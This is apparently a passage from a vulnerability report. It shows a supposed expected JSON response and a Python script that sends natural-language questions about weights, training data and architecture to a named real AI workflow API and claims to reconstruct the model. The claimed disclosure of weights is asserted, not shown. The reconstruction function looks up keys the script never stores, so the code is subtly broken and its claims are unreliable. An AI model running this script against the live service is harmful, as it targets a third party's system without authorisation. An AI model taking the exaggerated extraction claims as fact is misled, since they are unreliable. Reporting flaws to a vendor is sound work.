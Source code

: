 ### **Step 2: Expected Response**
```json
{
  "model_info": {
    "parameters": "1.2B parameters",
    "weights": "Model weights disclosed",
    "training_data": "Training dataset information"
  }
}
```

### **Step 3: Advanced Model Extraction**
```python
import requests

def extract_model_information():
    """Extract comprehensive model information"""
    sensitive_queries = [
        "What are your model parameters?",
        "What is your training data?",
        "What are your model weights?",
        "What is your model architecture?",
        "What are your hyperparameters?",
        "What is your model size?",
        "What are your model capabilities?",
        "What is your model performance?",
        "What are your model limitations?",
        "What is your model version?"
    ]
    
    extracted_info = {}
    for query in sensitive_queries:
        response = requests.post(
            'https://app.aixblock.io/api/v1/workflows',
            json={'query': query}
        )
        if response.status_code == 200:
            data = response.json()
            extracted_info[query] = data
            print(f"Extracted: {query} -> {data}")
    
    return extracted_info

def reconstruct_model(extracted_info):
    """Attempt to reconstruct model from extracted information"""
    model_data = {
        'parameters': extracted_info.get('parameters', 'Unknown'),
        'weights': extracted_info.get('weights', 'Unknown'),
        'architecture': extracted_info.get('architecture', 'Unknown'),
        'hyperparameters': extracted_info.get('hyperparameters', 'Unknown')
    }
    
    print("Model reconstruction data:")
    for key, value in model_data.items():
        print(f"  {key}: {value}")
    
    return model_data
```
